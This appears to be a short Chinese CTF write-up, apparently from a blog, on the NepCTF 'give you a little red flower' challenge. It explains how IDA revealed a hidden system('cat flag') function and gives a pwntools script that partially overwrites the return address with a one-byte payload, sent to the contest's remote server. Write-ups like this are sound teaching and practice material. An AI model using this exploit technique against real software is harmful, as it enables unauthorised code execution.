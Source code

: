 ```yaml
---
title: EIP
categories: 
    - Stack
    - EIP
---
```

# EIP
<!--more-->
## 地址随机化

### NepCTF 给你一朵小红花

2021.3.25

找字符串看见cat flag的system函数，进去发现反编译是红色的，快捷键P手动让IDA生成一个函数

![20210325191702](https://raw.githubusercontent.com/YTrick/image/branch/image/20210325191702.png)

![20210325191953](https://raw.githubusercontent.com/YTrick/image/branch/image/20210325191953.png)

只要程序返回到这个

![{9A808D7E-F8DA-C99D-776D-F86EB6839E53}](https://raw.githubusercontent.com/YTrick/image/branch/image/%7B9A808D7E-F8DA-C99D-776D-F86EB6839E53%7D.JPG)

也就是返回了序号5对应的字符
这个时候发送send不要line 下面的内容

![20210325192243](https://raw.githubusercontent.com/YTrick/image/branch/image/20210325192243.png)

`p64(0) + p64(1) + b"\xE1"`

```py
from pwn import * 
context.arch = 'amd64' 
context.log_level='debug'  
#p = process('./xhh') 
p = remote('node2.hackingfor.fun',35402 )
#p = remote('127.0.0.1',12345)  
payload = p64(0) + p64(1) + b"\xE1" 
p.send(payload)
```

多跑几次就能出flag






